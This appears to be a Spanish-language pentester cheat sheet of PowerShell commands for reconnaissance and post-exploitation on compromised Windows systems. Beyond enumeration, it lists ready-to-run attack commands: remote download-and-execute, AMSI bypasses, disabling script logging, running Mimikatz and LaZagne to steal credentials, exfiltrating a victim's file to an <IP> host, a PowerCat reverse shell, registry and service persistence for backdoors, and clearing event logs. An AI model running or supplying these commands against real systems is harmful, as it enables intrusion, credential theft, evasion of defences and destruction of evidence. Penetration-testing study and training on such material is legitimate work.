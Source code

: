 # 🛠️ PowerShell for Pentesters

Comandos útiles en PowerShell para tareas de reconocimiento, post-explotación, evasión y búsqueda de información sensible en sistemas Windows comprometidos.

---

## 📋 Ver servicios

```powershell
Get-Service | ForEach-Object { $_.Name }

```

📍 Ubicaciones de los servicios ejecutados

```powershell
Get-WmiObject -Class win32_service | Format-List *

Get-WmiObject -Class win32_service | Sort-Object -Property PathName -Unique | Format-List PathName
```

🧠 Listar procesos únicos

```powershell
Get-Process | Sort-Object -Property ProcessName -Unique
```

👤 Enumeración de usuarios

```powershell
whoami
whoami /all
Get-WmiObject -Class Win32_ComputerSystem | Select-Object UserName
Get-LocalUser
net user
```

🛡️ Grupos y privilegios

```powershell
net localgroup administrators
```

🌐 Enumeración de red

```powershell
Get-NetAdapter | Format-Table
Get-NetIPAddress | Format-Table
Get-NetRoute
Get-NetTCPConnection | Where-Object { $_.State -eq "Established" }
```

🖥️ Información del sistema

```powershell
Get-WmiObject -Class Win32_OperatingSystem
Get-WmiObject -Class Win32_ComputerSystem
Get-ChildItem Env:
```

🔍 Buscar archivos sensibles por contenido

```powershell
Select-String -Path "C:\\Users\\*\\Documents\\*.txt" -Pattern "password"

Get-ChildItem -Path "C:\\Users" -Recurse -Include *.txt -ErrorAction SilentlyContinue |
Select-String -Pattern "password"
```

🗂️ Buscar archivos sensibles por nombre

```powershell
Get-ChildItem -Path "C:\\Users" -Recurse -ErrorAction SilentlyContinue -Force |
Where-Object { $_.Name -match "password|contraseña" }

Get-ChildItem -Path "C:\\Users" -Recurse -Include *password*,*passwords*,*contraseña* -File -ErrorAction SilentlyContinue
```

📅 Persistencia

```powershell
Get-ScheduledTask | Select-Object TaskName, TaskPath, State
Get-ChildItem -Path "C:\\Users\\*\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup"
```

🔧 Descarga y ejecución remota de scripts

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://<IP>/script.ps1")
```


🧱 Bypass de restricciones

```powershell

[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
# AVANZADO

🔐 Credenciales en memoria

```powershell
# Dump de credenciales con Mimikatz (si ya tienes permisos)
Invoke-Expression -Command "& {Invoke-WebRequest -Uri 'http://<IP>/mimikatz.exe' -OutFile 'C:\Windows\Temp\mimikatz.exe'; Start-Process 'C:\Windows\Temp\mimikatz.exe'}"
```
💡 Alternativamente, puedes ejecutar Mimikatz directamente en PowerShell usando Invoke-Mimikatz de PowerSploit si lo cargas manualmente.

🧠 Enumerar software instalado
```powershell
Get-WmiObject -Class Win32_Product | Select-Object Name, Version
```

🧰 Enumerar programas en ejecución
```powershell
gps | where {$_.Path -like "*Program Files*"} | select Name, Path
```

📄 Archivos recientes abiertos por usuarios
```powershell
Get-ChildItem "C:\Users\*\AppData\Roaming\Microsoft\Windows\Recent" -Recurse
```

🧾 Ver historial de PowerShell
```powershell
Get-Content (Get-PSReadlineOption).HistorySavePath
```

🕳️ POST-EXPLOTACIÓN / PRIVILEGE ESCALATION


🔒 Buscar archivos con permisos inseguros

```powershell
icacls "C:\Program Files" | findstr "(F)"  # Busca archivos con permisos Full para Everyone o Users
```

🧬 Información de drivers y controladores
```powershell
Get-WmiObject Win32_SystemDriver | Where-Object { $_.State -eq "Running" } | Select Name, PathName
```

🔌 Enumerar DLL hijacking targets

```powershell
Get-ChildItem -Path "C:\Program Files\", "C:\Program Files (x86)\" -Recurse -Include *.exe -ErrorAction SilentlyContinue |
ForEach-Object {
    $dllPath = Join-Path $_.DirectoryName "example.dll"
    if (-Not (Test-Path $dllPath)) {
        Write-Output "$dllPath podría ser vulnerable"
    }
}
```

🧱 BYPASS DE SEGURIDAD AVANZADO


🔓 Desactivar el AMSI (variante mejorada)

```powershell
$Amsi = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$Field = $Amsi.GetField('amsiInitFailed','NonPublic,Static')
$Field.SetValue($null,$true)
```

🔍 Desactivar ScriptBlock Logging

```powershell
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 0
```

📤 EXFILTRACIÓN Y COMUNICACIÓN

🔄 Exfiltrar archivos a servidor remoto

```powershell
Invoke-WebRequest -Uri "http://<IP>/upload" -Method POST -InFile "C:\Users\victim\Desktop\important.docx"
```

🛰️ Reversar Shell con PowerShell (PowerCat)

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
powercat -c <IP> -p 4444 -e cmd
```

🕵️‍♂️ PERSISTENCIA AVANZADA


🧠 Añadir key en el registro para persistencia

```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "C:\malicious\reverse.exe"
```

🧱 Crear servicio persistente

```powershell
New-Service -Name "UpdateService" -BinaryPathName "C:\malicious\backdoor.exe" -StartupType Automatic
Start-Service -Name "UpdateService"
```

🧽 LIMPIEZA Y EVIDENCIAS

🧹 Borrar logs de eventos

```powershell
wevtutil cl Security
wevtutil cl System
wevtutil cl Application
```

⚠️ Solo para cuando ya no se requiere mantener presencia, o como parte de un ejercicio controlado.

📚 FUENTES Y HERRAMIENTAS RECOMENDADAS
PowerSploit

PowerView: https://github.com/PowerShellMafia/PowerSploit 

Nishang: https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

PowerCat: https://github.com/besimorhino/powercat

Empire (PS Agent): https://github.com/BC-SECURITY/Empire


# CREDENCIALES CON LZAGNE

```powershell
Invoke-WebRequest -Uri "https://github.com/AlessandroZ/LaZagne/releases/download/2.4.3/lazagne.exe" -OutFile "$env:TEMP\lazagne.exe"

$lazagnePath = "$env:TEMP\lazagne.exe"

# Ejecutar módulo 'browsers' para sacar todas las credenciales de navegadores
$result = & $lazagnePath browsers

# Mostrar resultado en consola
Write-Output $result

# Guardar resultado en archivo
$result | Out-File -FilePath "$env:TEMP\browser_passwords.txt" -Encoding utf8


```
